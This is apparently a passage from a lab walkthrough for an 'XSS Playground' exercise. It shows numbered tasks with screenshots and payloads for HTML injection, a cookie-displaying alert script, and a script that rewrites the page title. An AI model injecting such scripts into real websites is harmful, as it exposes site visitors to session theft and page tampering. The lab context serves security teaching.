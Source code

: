![](<../../.gitbook/assets/Screenshot from 2020-08-26 22-10-18.png>)

### #4 **Then add a comment and see if you can insert some of your own HTML.**

```markup
<h1>test</h1>
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 22-13-06.png>)

### #5 **On the same page, create an alert popup box appear on the page with your document cookies.**

```markup
<script>alert(document.cookie)</script>
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 22-15-00.png>)

### #6 **Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.**

```markup
<script>document.getElementById("thm-title").textContent="I am a hacker"</script>
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 22-18-22.png>)
